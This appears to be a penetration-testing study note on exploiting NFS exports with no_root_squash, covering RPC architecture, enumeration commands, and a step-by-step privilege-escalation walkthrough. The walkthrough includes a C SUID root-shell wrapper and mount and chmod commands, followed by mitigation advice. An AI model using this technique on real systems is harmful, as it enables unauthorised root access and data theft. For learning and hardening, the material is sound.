

# Exploiting NFS and Weak RPC Exports

## 1. Introduction to NFS and RPC

The Network File System (NFS) is a distributed file system protocol originally developed by Sun Microsystems. It allows a user on a client computer to access files over a network much like local storage is accessed. NFS relies fundamentally on the Open Network Computing Remote Procedure Call (ONC RPC) system to function.

In a typical UNIX/Linux environment, NFS is heavily used for sharing directories among servers, hosting home directories, and centralizing storage. Because NFS was designed in an era where internal networks were considered implicitly trusted, early versions of the protocol (NFSv2 and NFSv3) lack robust built-in authentication and encryption mechanisms.

When NFS is misconfigured—specifically through weak export configurations—it presents a massive security risk, often leading directly to remote code execution and local privilege escalation.

## 2. Architecture: Portmapper and RPCBind

To understand NFS exploitation, one must understand how RPC services are mapped. 

RPC services do not use fixed ports (other than the portmapper itself). Instead, an RPC service (like NFS or mountd) requests an available port from the operating system and registers that port with the **Portmapper** (also known as `rpcbind`).

- **Portmapper (`rpcbind`)**: Listens on **TCP/UDP port 111**. Its sole job is to tell clients which port a specific RPC service is currently listening on.
- **NFS Daemon (`nfsd`)**: Typically listens on **TCP/UDP port 2049**.
- **Mount Daemon (`mountd`)**: Listens on a random port registered with `rpcbind`. It handles the actual requests to mount an exported directory.

### 2.1 The Mounting Process
1. The client contacts the server's Portmapper (Port 111) and asks: "Which port is `mountd` listening on?"
2. The Portmapper replies with the port number (e.g., Port 48211).
3. The client connects to `mountd` on Port 48211 and requests to mount the exported directory.
4. `mountd` verifies the client's IP address against the `/etc/exports` file. If authorized, it grants a file handle.
5. The client uses this file handle to interact directly with the NFS daemon on Port 2049.

## 3. The Core Vulnerability: `no_root_squash`

The security of NFS relies heavily on the concept of "squashing." 

When a client accesses an NFS share, the server relies on the client to send its User ID (UID) and Group ID (GID). The server blindly trusts these IDs. If a user with UID 1000 creates a file on the client, the file is written to the server with UID 1000.

**The Root Privilege Problem:**
If the `root` user on the client (UID 0) writes a file, the server would natively create it with UID 0 (root). This is incredibly dangerous because an attacker with root access on *their own* local machine could mount the share and create files owned by the target server's root user.

**Root Squashing:**
To prevent this, NFS uses `root_squash` by default. When the server sees a request from UID 0, it "squashes" it, mapping it to an unprivileged user, typically `nfsnobody` (UID 65534).

**The Misconfiguration:**
Administrators often explicitly set the `no_root_squash` option in `/etc/exports` to allow root users on client machines to interact with the share as root. This is the misconfiguration we exploit.

## 4. Architectural Diagram: NFS Export Exploitation



## 5. Enumeration and Reconnaissance

### 5.1 Nmap Scanning
First, verify that RPC and NFS are running.

```bash
nmap -sV -p 111,2049 10.10.10.50
```

### 5.2 Querying RPCBind
Use `rpcinfo` to see all registered RPC services on the target. This confirms `mountd` and `nfs` are available.

```bash
rpcinfo -p 10.10.10.50
```

### 5.3 Discovering Exports
The `showmount` command queries the `mountd` service to reveal which directories are exported and to whom.

```bash
showmount -e 10.10.10.50
```

**Expected Output:**
```text
Export list for 10.10.10.50:
/var/nfsshare *
/home/backup  10.10.10.0/24
```
The asterisk `*` means anyone can mount `/var/nfsshare`. 

## 6. Exploitation Methodology

### Step 1: Mount the Share
Create a local directory and mount the remote NFS share. You must run this as root on your attacker machine.

```bash
# On attacker machine
sudo mkdir -p /mnt/nfs_target
sudo mount -t nfs -o vers=3,nolock 10.10.10.50:/var/nfsshare /mnt/nfs_target
```

### Step 2: Verify Permissions and Squashing
Check if `no_root_squash` is active by creating a test file as root.

```bash
cd /mnt/nfs_target
touch test_root_file
ls -la test_root_file
```
If the file is owned by `root:root`, then `no_root_squash` is enabled! If it is owned by `nobody:nobody`, root squashing is active, and this exploit path is closed.

### Step 3: Craft the Malicious SUID Binary
If `no_root_squash` is enabled, we can place a malicious binary on the share and set the SUID bit. When a user on the target system executes this binary, it will run with root privileges.

Instead of copying `/bin/bash` directly (which sometimes drops privileges depending on the bash version), it is safer to compile a simple C wrapper:

Create `suid_shell.c` on your local machine inside the mount:
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
    return 0;
}
```

### Step 4: Compile and Set Permissions
Compile the code and set the SUID bit. *Because you are root on your machine, and `no_root_squash` is on, the target server applies these permissions directly to its own filesystem.*

```bash
gcc suid_shell.c -o suid_shell
chmod +s suid_shell
ls -la suid_shell
# Output should look like: -rwsr-sr-x 1 root root 16K Jun 10 10:00 suid_shell
```

### Step 5: Execute on the Target
Now, you need a low-privileged shell on the target system (e.g., via SSH or a web application vulnerability). 
Navigate to the NFS share locally on the target and run the binary.

```bash
# On the target system (as low-priv user)
cd /var/nfsshare
./suid_shell
```
You will immediately be dropped into a root shell!

## 7. NFSv3 vs. NFSv4 Security

The techniques discussed above primarily target **NFSv3**. 
- **NFSv3**: Relies heavily on IP-based authentication (configured in `/etc/exports`) and blindly trusts client-provided UIDs. It transmits data in cleartext.
- **NFSv4**: Introduces stateful connections, operates purely over TCP port 2049 (obviating the need for portmapper), and integrates strongly with Kerberos (sec=krb5, sec=krb5i, sec=krb5p) to provide cryptographically secure authentication and payload encryption. However, if an administrator uses NFSv4 with `sec=sys` (the default Unix auth), it remains vulnerable to UID spoofing and `no_root_squash` exploits.

## 8. Mitigation and Best Practices

1. **Never use `no_root_squash`**: Unless strictly necessary for a highly trusted, isolated system, always rely on the default `root_squash` behavior.
2. **Restrict IP Access**: Never use `*` in `/etc/exports`. Explicitly define the IP addresses or subnets that require access to the mount.
3. **Use NFSv4 with Kerberos**: Upgrade to NFSv4 and implement Kerberos authentication (`sec=krb5p`) to require cryptographic proof of identity and to encrypt network traffic.
4. **Firewall Rules**: Block port 111, 2049, and mountd ports at the network perimeter. NFS should strictly be an internal service.
5. **Mount Options**: If clients only need to read data, export the share with the `ro` (read-only) flag.

## 9. Chaining Opportunities

- **[[23 - Local Privilege Escalation]]**: Weak NFS exports are one of the most reliable methods for escalating from a low-privileged foothold to root.
- **[[08 - Network Pivoting and Tunneling]]**: An attacker who compromises a perimeter web server can use it to pivot into the internal network, discover internal NFS shares, mount them, and steal sensitive data.
- **[[13 - Exploiting Telnet and Cleartext Protocols]]**: Since NFSv3 transmits data in cleartext, an attacker performing ARP spoofing can intercept sensitive files being transferred over the NFS mount.

## 10. Related Notes
- [[02 - Introduction to Network Protocols]]
- [[21 - Lateral Movement Techniques]]
- [[72.13 Exploiting Telnet and Cleartext Protocols]]
